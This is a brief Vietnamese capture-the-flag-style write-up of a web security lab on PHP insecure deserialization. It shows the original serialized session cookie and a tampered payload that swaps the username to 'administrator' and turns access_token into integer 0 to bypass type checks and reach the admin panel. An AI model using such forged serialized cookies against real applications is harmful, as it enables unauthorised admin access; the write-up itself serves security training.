


# Lab: Modifying serialized data types

## Nhận diện

- Sau khi đăng nhập bằng `wiener`, cookie session cũng là một serialized object.
- Object có `username` và `access_token` kiểu chuỗi.

```txt
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"uofadb0w1zbxmmn2gbgrl216m97bll4o";}
```

## Khai thác

- Đổi `username` thành `administrator` nhưng giữ nguyên kiểu dữ liệu sẽ gây lỗi.
- Chuyển `access_token` từ string sang integer để bypass kiểm tra kiểu.

```txt
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

## Kết quả

- Ứng dụng hiển thị `Admin Panel`.




